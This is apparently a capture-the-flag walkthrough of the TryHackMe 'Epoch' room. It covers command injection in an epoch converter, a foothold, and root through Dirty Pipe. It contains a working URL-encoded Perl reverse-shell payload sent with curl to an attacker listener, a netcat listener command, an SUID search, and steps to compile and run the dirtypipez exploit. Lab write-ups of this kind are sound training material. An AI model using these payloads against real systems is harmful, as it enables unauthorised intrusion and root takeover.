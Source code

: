 # THM/Epoch ⌛
## Command Injection
Normally an `nmap` scan of the target is needed but the room harbours no illusions that the entry point for this box lies on a web interface on port 80 and features a command injection vulnerability, so we'll start there.
The web page features a simple program that allows users to convert Epoch to UTC...  
![alt text](https://github.com/p1ckzi/CTFs/blob/main/THM-Epoch/epoch-to-utc-converter.png)  
Submitting anything other than a date seems to throw an `exit 1` code but after only a moment it can be seen that the `&` symbol allows users to add additional code after a date is provided:  
![alt text](https://github.com/p1ckzi/CTFs/blob/main/THM-Epoch/command-injection-1.png)  
No interception of the request was needed via Burp Suite. Already we have command injection.
## 🦶 Foothold
At this point we can navigate the system to some degree just using command injection but having a shell on the system makes our life much easier.  
The `which` command was used to try to find common programs like netcat for this purpose of creating a reverse shell but it appears these are unavailable to us since searching for programs like `nc`, `netcat`, `socat`, `python`, etc, all throw `exit 1` errors.  
However `perl` is available and we can see this by using `which perl`:  
![alt text](https://github.com/p1ckzi/CTFs/blob/main/THM-Epoch/command-injection-2.png)  
A reverse shell can be created with `perl`.  
A popular resource for reverse shells is pentest monkey's reverse shell cheat sheet: https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet which includes one for `perl`.
In our terminal we set up a listener on port 9999 with `nc`:  
```
nc -lnvp 9999
```
The `curl` command was used to make a web request to the Epoch to UTC Converter webpage. The web request also contains a year, the `&` symbol and then the perl reverse shell to our attacking machine's' listening port:
```
curl http://10.10.227.130/?epoch=2022%26perl+-e+%27use+Socket%3B%24i%3D%2210.14.34.152%22%3B%24p%3D9999%3Bsocket%28S%2CPF_INET%2CSOCK_STREAM%2Cgetprotobyname%28%22tcp%22%29%29%3Bif%28connect%28S%2Csockaddr_in%28%24p%2Cinet_aton%28%24i%29%29%29%29%7Bopen%28STDIN%2C%22%3E%26S%22%29%3Bopen%28STDOUT%2C%22%3E%26S%22%29%3Bopen%28STDERR%2C%22%3E%26S%22%29%3Bexec%28%22%2Fbin%2Fsh+-i%22%29%3B%7D%3B%27
```
We now have a foothold on the machine as the user *challenge*.
### Terminal output:
```
┌──(p1ckzi㉿kali)-[~]                                                                     
└─$ nc -lnvp 9999                                                                         
Ncat: Version 7.93 ( https://nmap.org/ncat )                                               
Ncat: Listening on :::9999                                                                 
Ncat: Listening on 0.0.0.0:9999                                                           
Ncat: Connection from 10.10.227.130.                                                       
Ncat: Connection from 10.10.227.130:34444.                                                 
/bin/sh: 0: can't access tty; job control turned off                                       
$ whoami                                                                                   
challenge
```
* * *
## 🚩 Flag
Simple enumeration finds us the only flag we need for this box. We can do this will common tools such as `linpeas.sh` available at https://github.com/carlospolop/PEASS-ng/releases/download/20221106/linpeas.sh.  
But requesting the environment variables finds us the flag with the `env` command.
### Terminal Output:
```
$ env                                                                                     
HOSTNAME=e7c1352e71ec                                                                     
SHLVL=1                                           
HOME=/home/challenge                              
_=whoami                                          
PATH=/usr/local/go/bin:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin       
PWD=/home/challenge                               
GOLANG_VERSION=1.15.7                             
FLAG=****{********************************}
```
Done! 🏆
* * *
## 🚩 Root
There'ss no flag for root but lets try to get that anyway.  
If the latest `linpeas.sh` was used you'll see that the box is vulnerable to `CVE-2022-0847`, also known as dirtypipe but this can also be confirmed using system commands.  
A good a resource on this can be found at https://sysdig.com/blog/cve-2022-0847-dirty-pipe-sysdig/.  
The vulnerability exists in kernel versions between v5.8 and v5.15 and this can be identified using the `uname -r` command which shows that indeed, the box is running an older version...
### Terminal Output:
```
$ uname -r                                        
5.13.0-1014-aws
```
The flaw lies in Linux kernel memory management functionality with how pipe page caches can be merged and overwrite other page caches.  
For the exploit to work an attacker first needs to access a shell on a system through some means, as we have done. This may be with a regular person’s account, or a system accounts for running services that are vulnerable to remote attacks.  The attacker then needs to find an interesting file they can read to illegally overwrite. So for example, password and configuration files in `/etc` that are normally read-only are a likely choice for an attacker to target.  
The attacker can run a program to open a pipe, then fill the page caches with bytes to set the `PIPE_BUF_FLAG_CAN_MERGE` flag, then empty and replace it with the data they want to overwrite with. Then, `splice()` is called to merge the pages together. The `PIPE_BUF_FLAG_CAN_MERGE` flag causes the new data to be merged back into the original target file and circumvents the read-only restriction.
A proof-of-concept was released the day after the disclosure by author Blasty at https://haxx.in/ and shows how this flaw can be leveraged to create a SUID shell backdoor. By using the same technique to overwrite a file, the exploit overwrites an executable that has SUID permissions - and is able to run as the superuser. The exploit overwrites the command with a shell, runs it to create a SUID shell in `/tmp`, and then replaces the original executable.  
His proof-of-concept can be found at https://haxx.in/files/dirtypipez.c and does all the hard work for us.  
The file can be uploaded to the target using common methods (the `/tmp` directory has write access) and then compiled since the `gcc` command is also available to us:
```
gcc dirtypipez.c -o dirty
```
From there, we just need to provide an SUID binary to the executable we compiled.
We can find that using
```
find / -perm -u=s -type f 2>/dev/null
```
There's many resources for linux privilege escalation. One great one with many different techniques is https://book.hacktricks.xyz/linux-hardening/privilege-escalation and goes into depth on escalation using SUID binaries.
For our purpose we'll just use the first `/usr/bin/chfn` binary.
### Terminal Output:
```
$ find / -perm -u=s -type f 2>/dev/null                                                             
/usr/bin/chfn                                     
/usr/bin/umount                                   
/usr/bin/passwd                                   
/usr/bin/gpasswd                                  
/usr/bin/newgrp                                   
/usr/bin/chsh                                     
/usr/bin/su                                       
/usr/bin/mount
```
We can use the `chmod +x <file>` command to make our compiled exploit executable, and direct it at the SUID binary with:
```
chmod +x dirty
./dirty /usr/bin/chfn
```
We now have root on the box.
### Terminal output:
```
$ ./dirty
Usage: ./dirty SUID
$ ./dirty /usr/bin/chfn
whoami && id
root
uid=0(root) gid=0(root) groups=0(root)
```
Epoch on https://tryhackme.com
